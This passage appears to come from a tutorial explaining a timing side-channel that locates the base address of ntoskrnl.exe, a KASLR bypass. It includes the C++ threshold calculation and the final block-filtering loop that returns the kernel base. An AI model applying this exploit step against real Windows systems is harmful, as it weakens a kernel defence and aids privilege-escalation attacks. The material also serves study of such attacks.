 
---

From the average, we derive fractional parts that will help us filter out the address we’re interested in
```cpp

	unsigned int BaseSpeed1 = averageSpeed / 5;
	unsigned int BaseSpeed2 = averageSpeed / 10;

	// printf("\nBaseSpeed1 -> %u", BaseSpeed1);
	// printf("\nBaseSpeed2 -> %u\n", BaseSpeed2);
```

---

This is the final loop, where we obtain our target address. It is based on filtering blocks of 12 (0xc) addresses. Our goal is to find a region where the read times are consistently fast, which would suggest that those addresses are actually mapped (valid kernel address).

If any of the times within a 12 address block are greater than or equal to `averageSpeed - BaseSpeed2`, the entire block is discarded, and we move on to the next one.

If the block passes this first filter, we compute the average of the 12 entries. If the average is low enough, we consider the first component of that block (`i`) to be the base address of `ntoskrnl.exe`.
```cpp
	for (UINT64 i = 0; i < 0x8000 - 0xc; i++)
	{
		int average = 0;
		for (UINT64 x = 0; x < 0xc; x++)
		{
			if (Speed[i + x] >= averageSpeed - BaseSpeed2)
			{
				average = -1;
				break;
			}
			average += Speed[i + x];
		}
		if (average == -1)
		{
			continue;
		}
		average /= 0xC;
		if (average < (averageSpeed - BaseSpeed1))
		{
			// printf("\n[Kernel Base] -> 0x%p\n\t\\__[Time] -> %u\n", 0xfffff80000000000 + (i * 0x100000), Speed[i]);
			// printf("\nAddr -> 0x%p", 0xfffff80000000000 + (i * 0x100000));
			return (0xfffff80000000000 + (i * 0x100000));
		}
	}

	return 0;
}
```
